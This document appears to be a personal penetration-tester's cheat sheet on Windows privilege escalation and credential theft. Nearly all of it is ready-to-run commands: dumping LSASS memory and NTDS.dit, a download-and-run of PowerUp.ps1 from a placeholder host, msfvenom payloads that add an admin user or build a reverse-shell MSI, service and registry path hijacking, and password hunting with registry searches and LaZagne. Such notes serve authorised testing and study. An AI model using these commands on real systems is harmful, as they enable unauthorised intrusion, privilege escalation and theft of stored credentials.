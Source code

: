 ## RunasCs.exe
Windows script to run specific processes under a different user account
```powershell
PS > .\RunasCs.exe $Username $Password $Command
```
Command can be like `msfvenom reverse shell`
# Processes
Check running processes, could hint at possible VM machine, prompting [[VM Escape]].
## Dumping #lsass Process Memory
### Using Task Manager (GUI)
"Create Dump File" of Local Security Authority Process (LSAP) from Task Manager. It gets saved in `C:\Users\<user>\AppData\Local\Temp`. 

`Task Manager` > `"Processes" tab` > `"Local Security Authority" Process` > `Select Create dump file`
### Using `rundll32.exe`
- On CMD:
```powershell
PS > tasklist /svc
```
- On Powershell: 
```PowerShell
PS > Get-Process lsass
PS > rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> <destination> full
```
### Tools
- [[pypykatz]]
## Dumping NTDS.dit
To copy `NTDS.dit` we need local admin (`Administrators group`) or Domain Admin (`Domain Admins group`) (or equivalent) rights, which can be checked with `net localgroup`
### Tools
- [[VSS]]
- [[CrackMapExec#Dump NTDS.dit|CrackMapExec > Dump NTDS.dit]]
# Services
## Service
- Check all services with `sc query`
```cmd
> sc.exe query state=all
```
- Query configuration of a service
```powershell
PS > sc qc <service>
```
- Check access
## Access Check 
- Check `<user>` access to a particular  `service`
```powershell
PS > accesschk /accepteula -uwcqv <user> <service>
```
## Service Permissions
# PowerUp.ps1
```powershell
PS > iex (iwr -usebasicparsing http://<IP>:<PORT>/PowerUp.ps1)
PS > Invoke-AllChecks
```
# Dangerous Settings
## #AlwaysInstallElevated 
Allows to install/run executable with elevated privileges. 
- Create super-user
```shell-session
$ msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi #No uac format
$ msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi 
```
>**!! NOTE:** Using the msiexec the uac wont be prompted
- Create elevated reverse-shell
```shell-session
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f msi -o reverse.msi
```
Install it on the vulnerable system:
```powershell
PS > msiexec /quiet /qn /i C:\path\to\executable.msi
```
## #service_change_config 
If the service runs with `SYSTEM` privileges and we can change its config, change the binary path of the service to our malicious reverse shell and restart it.
```powershell
> sc config <service> binpath= "\"C:\Path\to\rev-shell""
> net start <service>
```
## #unquoted-service-path 
If the service runs with `SYSTEM` privileges and its path is unquoted, check folder permissions to create a script at the vulnerable path.
### Tools
1. [[AccessChk]]
2. [[ICACLS]]
## Registry Permission
If the registry permissions allow to modify, change service path from here.
```powershell
> accesschk /accepteula -uvwqk HKLM\path\to\service
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS

> reg add HKLM\path\to\service /v ImagePath /t REG_EXPAND_SZ /d C:\path\to\shell.exe /f
```
## Password in Registry
The registry can be searched for keys and values that contain the word "password"
```powershell
PS > reg query HKLM /f password /t REG_SZ /s
```
## Saved Credentials
List any saved credentials and use them to run script:
```powershell
PS > cmdkey /list
PS > runas /savecred /user:<user> C:\path\to\script
```

# Local System
If not connected to domain, extract #SAM-registry-hive with [[reg.exe]] 
>Note: Need CMD with admin privilege.
![[reg.exe#Save registry]]

## Dumping LSA Secrets/SAM Remotely  ![[CrackMapExec#Dump LSA/SAM Remotely]] 
# Enumeration
## Find Keywords
```cmd-session
C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```
## Tools
- [[LaZagne]]
```cmd-session
> start lazagne.exe all
```
